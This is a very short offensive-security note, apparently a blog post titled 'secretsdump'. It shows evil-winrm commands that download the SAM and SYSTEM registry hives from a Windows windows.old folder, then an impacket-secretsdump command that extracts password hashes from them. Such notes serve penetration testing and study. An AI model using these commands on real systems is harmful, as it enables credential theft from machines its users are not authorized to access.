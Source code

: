 ```yaml
---
layout: post
title: secretsdump
titledate: 11/01/23
tags: ["infosec","offsec","impacket", "hive"]
---
```


#### windows.old

    $ evil-winrm: download C:\windows.old\Windows\System32\SYSTEM
    $ evil-winrm: download C:\windows.old\Windows\System32\SAM

download both then with impacket

    └─$ impacket-secretsdump -sam SAM -system SYSTEM LOCAL

